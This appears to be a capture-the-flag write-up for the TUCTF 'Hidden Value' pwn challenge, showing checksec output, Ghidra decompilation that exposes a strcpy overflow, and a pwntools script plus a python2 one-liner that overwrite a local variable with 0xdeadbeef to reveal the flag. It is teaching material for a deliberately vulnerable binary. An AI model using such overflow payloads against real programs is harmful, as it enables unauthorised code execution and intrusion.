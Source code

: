 # Hidden Value

## Challenge Description
```text
Easy

There's a hidden value in this program, can you find it?
nc chal.tuctf.com 30011
```

## Protections
The NX is enabled so can't execute shellcode on the stack but it won't bother us
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ checksec hidden-value 
[*] '/home/vein/tuctf/pwn_hidden-value/hidden-value'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## First Look
We run the program and that what it looks like:
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value            
Enter your name: leo
Hello, leo
! Nothing special happened.
```
## Static Analysis in Ghidra

We open the program in Ghidra and we go directly to main to see what is happening
```c

undefined8 main(void)

{
  char local_78 [112];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  printf("Enter your name: ");
  fgets(local_78,100,stdin);
  greet_user(local_78);
  return 0;
}
```
We see that after we insert our name in the program,one function is called with it as function's input -> greet_user(local_78);

```c
void greet_user(char *param_1)

{
  char local_38 [44];
  int local_c;
  
  local_c = 0x12345678;
  strcpy(local_38,param_1);
  if (local_c == L'\xdeadbeef') {
    hidden_command();
  }
  else {
    printf("Hello, %s! Nothing special happened.\n",local_38);
  }
  return;
}
```

```c
void hidden_command(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Congratulations! You have executed the hidden command.");
  local_10 = fopen("flag","r");
  fgets(local_78,100,local_10);
  printf("The flag is: %s\n",local_78);
  return;
}
```
Here is the problem. We don't have immediately in the main a buffer overflow but in the buffer of main will cause a bof in greet_user() cause in the
first one the buffer size is 112 and the others is 44. So after 44 bytes we have a bof and we can overwrite the value of local c to deadbeef to execute
hidden_command() funtion that will give us the flag

## Exploitation

Here is the python script

```python
#!/usr/bin/env python3
from pwn import *

p = process('./hidden-value')  # local now cause i'm doing the writeup long time after the ctf :) 
#p = remote('chal.tuctf.com', 30011) 
param = 0xdeadbeef # the word that we want to inject to execute hidden_command() and take the flag
padding = b'a' * 44

payload = flat(
	padding,
	param
	)

p.sendline(payload)
print(p.recvall())
```

```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./exploit.py
[+] Starting local process './hidden-value': pid 2908
[+] Receiving all data: Done (109B)
[*] Stopped process './hidden-value' (pid 2908)
b'Enter your name: Congratulations! You have executed the hidden command.\nThe flag is: fake{fl4g_f0r_t3st1ng}\n\n'
```

I also made manual payload for fun
```console
┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ python2 -c print"'a' * 44 + '\xef\xbe\xad\xde'"> payload

┌──(vein㉿vein)-[~/tuctf/pwn_hidden-value]
└─$ ./hidden-value < payload                                
Enter your name: Congratulations! You have executed the hidden command.
The flag is: fake{fl4g_f0r_t3st1ng}

zsh: segmentation fault  ./hidden-value < payload
```

The original flag was: TUCTF{pr4cti4l_buffer_overrun}








